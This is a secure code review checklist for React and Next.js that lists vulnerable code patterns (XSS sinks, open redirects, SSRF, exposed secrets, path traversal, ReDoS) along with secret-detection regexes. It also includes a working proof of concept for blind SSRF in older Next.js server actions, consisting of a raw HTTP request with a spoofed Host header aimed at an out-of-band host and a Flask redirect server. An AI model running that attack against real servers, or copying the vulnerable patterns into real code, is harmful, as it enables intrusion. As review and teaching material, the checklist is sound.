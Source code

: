 # React/Next.js Secure Code Review Checklist

## XSS

```
<div dangerouslySetInnerHTML={{ __html: text }} />;
```

```
<a href={user_input}>Click here!</a>
```

```
this.myRef.current.innerHTML = userInput;
```

```
<button form="name" formaction={user_input}>
```

```
React.createElement("a", {
  href: user_input
})
```

```
<a onClick={userinput}>
<span onClick={userinput}>
```

```
this.myRef.insertAdjacentHTML('afterend', user_input);
```

```
// Reflected XSS
function renderFullPage(html, preloadedState) {
  return `
        <div id="root">${html}</div>
        <script>
          window.__PRELOADED_STATE__ = ${JSON.stringify(preloadedState)}
        </script>
    `
}
```

```
// Dangerously Allow SVG without proper CSP 
module.exports = {
  images: {
    dangerouslyAllowSVG: true,
    contentSecurityPolicy: "",
  },
}
```


## Code Injection

```
useEffect(() => {
    import(`./${componentName}`)
      .then(setComponent)
      .catch(console.error);
  }, [componentName]);
```

```
import(`../../locales/${user_input}`)
```

## Open Redirect

```
const [redirectTo, setRedirectTo] = useState('');

const login = async () => {
  await doSomething();
  window.location.href = redirectTo;
};
```

```
window.document.location = user_input
```

## SSRF

```
await axios({
    method: 'post',
    url: `${user_input}/foo`,
  });

```

```
const response = await fetch(`${user_input}/api/token=1212121233`, {
  });
```

```
request.get(`${user_input}/redirect=${user_input2}`)
```

## Sensitive Data Exposure Next.js

```
// Not suitable for server side secrets
publicRuntimeConfig: {
		AWS_API: process.env.AWS_API,
    GITHUB_TOKEN: process.env.GITHUB_TOKEN ,
	}
```

```
// Expose source map in production, source code leakage.
productionBrowserSourceMaps: true,
```

## Lack of Origin Validation

```
.postMessage(data, '*')
```

## Path Traversal

```
path.join('/tmp', user_input)
path.resolve('/tmp', user_input)
```

## ReDoS

```
new RegExp(user_input_or_insecure)
```

Check all regex with [https://github.com/makenowjust-labs/recheck](https://makenowjust-labs.github.io/recheck/playground/)

## CSRF

Mostly single page, check if origin is validated or a token is used.

## SSRF

Next.Js `Image` configuration can be abused to cause Blind SSRF.

```
 images: {
    remotePatterns: [
		{
			protocol: "https",
			hostname: "**",
		},
		{
			protocol: "http",
			hostname: "**",
		},
    ],
  },
```
Above is an insecure remote patterns. Can also cause XSS with CDN domains as well if `dangerouslyAllowSVG` is set to `true`

#### Server actions in older Next.js (`<v14.1.1.`) is vulnerable to SSRF since the host header is read from client.
Vulnerable if server action is used, has a redirect to `/` and the `host` header can be tampared.

Vulnerable code example:

```
"use server";

import { redirect } from "next/navigation";

export const handleSearch = async (data: FormData) => {
  if (!userIsLoggedIn()) {
    redirect("/login");
    return;
  }
  // .. do other stuff ..
};

function userIsLoggedIn() {
  return false;
}
```

PoC:
```
POST /x HTTP/1.1
Host: kwk4ufof0q3hdki5e46mpchscjia69uy.oastify.com
Content-Length: 4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Next-Action: 15531bfa07ff11369239544516d26edbc537ff9c
Connection: close

{}
```

The `Next-Action` header denotes that a next action is used. The above blind SSRF can be turned into a reqular SSRF with a middleware server.

```
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('https://example.com')

```

Change the Host header to the flask server and set your target SSRF URL inside the flask server.

How this works?
- The Next.js server first does a preflight HEAD request to the URL.
- If the preflight returns a Content-Type header of RSC_CONTENT_TYPE_HEADER, which is text/x-component, then NextJS makes a GET request to the same URL.
- The content of that GET request is then returned in the response.

## Regex Search

- API Keys: `[aA][pP][iI]_?[kK][eE][yY][=_:\\s-]+['|\"]?[0-9a-zA-Z]{32,45}['|\"]?`
- Secret Tokens: `(?:[A-Za-z0-9+/]{4})*(?:[A-Za-z0-9+/]{2}==|[A-Za-z0-9+/]{3}=)?`
- Hardcoded Auth token `Bearer ([a-z]|[0-9])+? `
- Hardcoded JWT: `eyJhb.*`
- Hardcoded Private Key: `-----END RSA PRIVATE KEY-----`
- Github Token: `(ghp_)[\S]{36}`

## Semgrep

```
semgrep --config auto .
semgrep --config "p/typescript" .
```

### References:

- https://www.hyper-leap.com/2023/08/06/react-security-vulnerabilities-and-how-to-fix-them/
- https://snyk.io/blog/10-react-security-best-practices/
- https://redux.js.org/usage/server-rendering#security-considerations
- https://github.com/dxa4481/truffleHogRegexes/blob/master/truffleHogRegexes/regexes.json
- https://medium.com/dailyjs/exploiting-script-injection-flaws-in-reactjs-883fb1fe36c1
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps

